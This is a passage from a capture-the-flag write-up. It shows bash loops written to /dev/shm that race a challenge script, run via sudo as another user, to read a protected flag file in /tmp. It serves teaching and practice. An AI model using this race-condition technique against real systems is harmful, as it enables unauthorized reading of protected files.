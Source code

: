 Then we write it in a file and execute it **(Note that it is in a different path then `/tmp` folder to prevent the script removal)** :

```
ctf@speed-74bbd6d8d9-6724k:/$ tee > /dev/shm/script_cat
#!/bin/bash
old="1"

while [ "$old" == "$old" ]  
do
   cat /tmp/"A_flag_that_you_can't_catch" 2> /dev/shm/err &
done
^C
```

Give it right permissions

```
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/script_cat
```

Then execute it (Note the use of `bash` before the script path since for some reason `/dev/shm` doesnt allow executing scripts in this container), always in the background using `Ampersand (&)` :

```
ctf@speed-74bbd6d8d9-6724k:/$ bash /dev/shm/script_cat &
```

Note that we use an error file to store the errors from the `cat` command and avoid overwhelming our terminal :

```
ctf@speed-74bbd6d8d9-6724k:/$ touch /dev/shm/err
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/err
```

2. Next, here is some script to loop on the execution of the `read.py` file :

```
#!/bin/bash
CHECK_FILE="ls -l /tmp"
old=$($CHECK_FILE)
new=$($CHECK_FILE)

while [ "$old" == "$new" ]  
do
   sudo -u ctf-cracked /challenge/read.py
   new=$($CHECK_FILE)
done
echo "STOP... The /tmp folder has been changed"
```

Then we write it in a file and execute it **(Note that it is in a different path then `/tmp` folder to prevent the script removal)** :

```
ctf@speed-74bbd6d8d9-6724k:/$ tee > /dev/shm/script_read
#!/bin/bash
CHECK_FILE="ls -l /tmp"
old=$($CHECK_FILE)
new=$($CHECK_FILE)

while [ "$old" == "$new" ]  
do
   sudo -u ctf-cracked /challenge/read.py
   new=$($CHECK_FILE)
done
echo "STOP... The /tmp folder has been changed"
^C
```
